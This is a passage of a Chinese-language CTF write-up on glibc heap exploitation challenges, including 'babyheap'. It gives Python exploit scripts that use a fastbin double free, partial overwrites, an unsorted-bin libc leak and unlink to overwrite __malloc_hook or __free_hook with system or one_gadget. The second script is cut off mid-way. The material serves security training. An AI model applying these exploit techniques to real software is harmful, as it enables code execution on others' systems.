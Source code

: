 然后我们释放 0x100 的伪造 chunk，这样在释放时即进入 unsorted bin，覆盖 `ptr[0]` 和 `ptr[1]` 为 `main_arena+88`。释放需要用到一个指向 `0x602060` 的指针，也就是我们之前在 `ptr[0]` 写入的指针。随后进行 partial overwrite，覆盖掉 `ptr[0]` 也就是 `main_arena+88` 的最低 1 字节为 `\x00`，这时 `ptr[0]` 存放的就是 `__malloc_hook-0x10` 的地址，这一步是编辑 `ptr[2]` 处指针指向的内容实现的。

此时再编辑 `ptr[0]` 指向的内容即可写 `__malloc_hook` 为后门函数。

```python
add(0)
add(1)
free(0)
free(1)
free(0)
fake = 0x602060
fake_next = 0x602150
add(2,p64(fake-0x23))
add(3)
add(4)

payload = flat('a'*3,0,0x101,fake,0,fake,0,fake_next,0,0)
add(5, payload)
edit(4,flat(0,0x21,0,0,0,0x21))

free(0) # 0x100
edit(2,'') # \x00, malloc_hook-0x10
system = 0x4008e3
edit(0,'a'*0x10+p64(system))

sla(':',_add)
sla(':',3)
```

## babyheap

本题和上题有点类似，只能分配 0x20 的堆块，漏洞点相同，且多了 show 功能。

首先考虑泄露 libc，我们采用传统的 unsorted bin 泄露大法，这就需要我们伪造 small chunk。为了伪造这个 chunk，首先要泄露堆地址，那么连续释放 2 个 fast chunk，后一个的 fd 就会指向前一个 chunk 的地址，从而可以泄露堆地址。唯一需要注意的是 show 在输出时用的 `puts` 遇到 `\x00` 会截断，所以要注意释放顺序使得泄露出的地址中不存在 `\x00` 字节。

获得堆地址之后，在 chunk0 内伪造 chunk 头造成堆块重叠，然后申请两次就可以申请到一个 `heap+0x20` 处的 chunk，通过写这个 chunk 我们可以写 chunk1 的头部，使得其大小变成 0xa1。随后释放即可泄露 libc，但这里释放时会检查后两个 chunk 的 size，因此我们还需要绕过检查。

绕过的方法是，不断申请 chunk 直到 0xa1 这个 chunk 的末尾，此时申请到的是 chunk4。写入 `0,0x31` 伪造一个 chunk 头；再申请一个 chunk5，写入 `0x30,0x30` 伪造 chunk 头，使得 chunk4 看起来是空闲的。这两步先做好后再释放 chunk1 才能通过检查。

这里让 chunk4 空闲的目的就是为了触发 `unlink` 造成任意地址写，那么显然我们还需要再 chunk4 的内容里添加伪造的 `fd` 和 `bk`，即 `0x602080-0x18` 和 `0x602080-0x10`，这里 `0x602080` 是 `ptr[4]`。`unlink` 之后，我们成功令 `ptr[4]` 指向 `ptr[1]`。现在编辑 chunk4 即可修改 `ptr[1]` 为 `free_hook`，然后编辑 chunk1 即可覆盖 `free_hook` 为 `one_gadget`（`system` 同理）。

```python
add(0)
add(1)
add(2)
add(3)
fd = 0x602080-0x18
bk = 0x602080-0x10
add(4,flat(0,0x31,fd,bk))
add(5,flat(0x30,0x30))

free(1)
free(0)
show(0)
heap = uu64(r(4)) - 0x30
leak('heap',heap)

edit(0,flat(heap+0x20,0,0,0x31))
add(6) # 0
```